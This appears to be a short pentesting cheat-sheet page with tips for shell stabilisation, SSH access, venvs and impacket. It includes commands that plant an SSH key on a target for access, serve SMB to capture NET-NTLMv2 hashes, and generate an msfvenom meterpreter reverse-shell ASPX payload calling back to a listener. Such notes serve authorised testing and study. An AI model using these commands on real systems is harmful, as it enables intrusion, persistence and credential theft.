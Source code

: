 ```yaml
---
title: Random Tips and Tricks
published: true
---
```


<h3>To stabilize a bash shell:</h3>
```shell
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press enter twice
export TERM=xterm
```

<h3>Adding an SSH key to a box:</h3>
```shell
On Kali, generate a key:
    ssh-keygen -t rsa
Next, copy the public key over to the users /home/.ssh/authorized_keys file
Then, simply ssh in using the private key:
    ssh -i <key name> username@host
```

<h3>Cleaning an SSH key:</h3>
```shell
Sometimes you may need to copy and paste an SSH key, and it's supposed to work... but it's not. You may need to remove bad chars and clean it up:

chmod 600 id_rsa
dos2unix id_rsa
vi --clean id_rsa
inside vi: (esc) + wq
ssh -i id_rsa username@host
```

<h3>Serving an SMB server with impacket:</h3>
```shell
impacket-smbserver evil ./ -smb2support
```
It's good practice to use the smb2support flag. If you see a connection come through that doesn't provide a NET-NTLMv2 it could be because you set up
the smb server without smb2 support.

<h3>Setting up python virtual environments:</h3>
```shell
python3 -m venv myenv

source myenv/bin/activate

pip install -r requirements.txt (replace with whatever command is needed to install whatever it is your doing)
```

<h3>Call tools globally on linux regardless of user:</h3>
```shell
Move the tools to:
/usr/local/bin
```

<h3>Generic usage of msfvenom:</h3>
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.245 LPORT=4444 -f aspx -o shell.aspx
```


